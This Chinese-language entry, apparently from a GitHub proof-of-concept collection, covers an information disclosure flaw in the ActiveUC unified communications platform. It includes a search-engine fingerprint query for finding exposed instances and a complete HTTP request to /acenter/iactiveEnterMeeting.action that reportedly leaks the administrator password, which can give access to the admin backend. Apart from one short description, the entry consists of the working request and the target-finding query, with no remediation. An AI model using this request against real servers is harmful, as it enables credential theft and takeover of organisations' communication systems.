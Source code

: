 ## 网动统一通信平台(ActiveUC)接口iactiveEnterMeeting存在信息泄露漏洞

网动统一通信平台是采用统一的通信界面，将VoIP电话系统、电子邮件等多种沟通方式融合的企业IT平台，接口 `/acenter/iactiveEnterMeeting.action?roomid=1&username=admin` 存在信息泄露漏洞，可能导致管理员密码泄露获取后台权限等。

## hunter

```javascript
web.title=="网动统一通信平台(Active UC)"
```


## poc
```javascript
GET /acenter/iactiveEnterMeeting.action?roomid=1&username=admin HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
```

![image-20241014095902804](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410140959976.png)
